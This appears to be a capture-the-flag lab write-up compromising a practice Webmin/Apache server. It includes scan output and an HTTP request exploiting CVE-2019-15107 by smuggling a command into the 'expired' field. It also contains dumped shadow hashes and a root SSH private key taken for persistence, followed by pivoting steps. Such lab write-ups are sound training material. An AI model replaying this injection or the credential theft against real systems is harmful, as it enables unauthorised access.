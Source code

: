 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1541728472741-03e45a58cf88?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHw5fHxoYWNrZXJ8ZW58MHx8fHwxNjQ0OTUxOTI2&ixlib=rb-1.2.1&q=85
coverY: 421.77650429799417
description: Main webserver
---
```


# 🔰 10.200.81.200 | Linux

## <mark style="color:purple;background-color:green;">\_\_Enumeration\_\_</mark>

<details>

<summary><mark style="color:purple;">NMAP</mark></summary>

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Thomas Wreath | Developer
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-02-15T11:52:37
|_Not valid after:  2023-02-15T11:52:37
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_ssl-date: TLS randomness does not represent time
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
```

Known CVE - `MiniServ 1.890 (Webmin httpd)`\
``![](<../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)``

</details>

<details>

<summary><mark style="color:green;">Web Services</mark></summary>

**Technologies**

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png>)

**Dirsearch | Gobuster**

```yaml
Target: https://thomaswreath.thm/
[14:40:10] 403 -  217B  - /cgi-bin/            
[14:40:18] 301 -  237B  - /css  ->  https://thomaswreath.thm/css/
[14:40:27] 301 -  239B  - /fonts  ->  https://thomaswreath.thm/fonts/
[14:40:32] 301 -  237B  - /img  ->  https://thomaswreath.thm/img/
[14:40:33] 200 -   15KB - /index.html                                       
[14:40:36] 200 -    1KB - /js/


```

#### Page Screenshots

![](<../../.gitbook/assets/image (2) (1).png>)![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png>)

</details>

#### :notebook\_with\_decorative\_cover: <mark style="color:blue;">Other Services</mark>

**OSINT** --> \
Phone Number: `01347 822945` \
Mobile Number: `+447821548812` \
Email: `me@thomaswreath.thm`

## <mark style="color:red;background-color:yellow;">\_\_Exploitation\_\_</mark>

## _<mark style="color:orange;">FOOTHOLD</mark>_

### **CVE-2019-15107 Webmin RCE v1.890 (Unauthenticated)**

**Manual exploit**\
****POC used --> [https://github.com/ruthvikvegunta/CVE-2019-15107](https://github.com/ruthvikvegunta/CVE-2019-15107)****\
****Response: \
![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)\
Request:&#x20;

```yaml
POST /password_change.cgi HTTP/1.1
Host: thomaswreath.thm:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: http://thomaswreath.thm:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 17



expired=id

```

{% hint style="info" %}
Use `curl` for faster responses!
{% endhint %}

Can successfully ping my machine and execute most of the commands.\
![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)![](<../../.gitbook/assets/image (1) (1).png>)

### Getting reverse shell

Use this to get a pseudoshell - [https://github.com/MuirlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)\
then convert to a TTY shell\
![](<../../.gitbook/assets/image (4) (1).png>)![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)\
Stabilize shell to get auto-complete and more\
![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

### Enumerating the machine for lateral movement

* `/etc/shadow` and `/etc/passwd` _<mark style="color:red;"></mark>_&#x20;

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::

twreath:x:1000:1000:Thomas Wreath:/home/twreath:/bin/bash
unbound:x:991:987:Unbound DNS resolver:/etc/unbound:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:990:986:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
```

* Found **mysql** data at `/var/lib/mysql/mysql`
* Found ssh key at `/root/.ssh/id_rsa` --> **ESTABLISH PERSISTENCE**

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

## _<mark style="color:red;">PIVOTING</mark>_

* Identify any local DNS servers which maybe misconfigured to allow DNS zone transfer attack: `arp -a` and `/etc/resolv.conf`

```bash
ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)

search eu-west-1.compute.internal
nameserver 10.200.0.2
```

* Performing a ping sweep of the network using nmap\
  ![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)
* Port scan every active host (except `.1, .250, .255`)\
  ![](<../../.gitbook/assets/image (3) (1) (1).png>)

{% hint style="info" %}
Rest of the hosts in their individual pages.
{% endhint %}
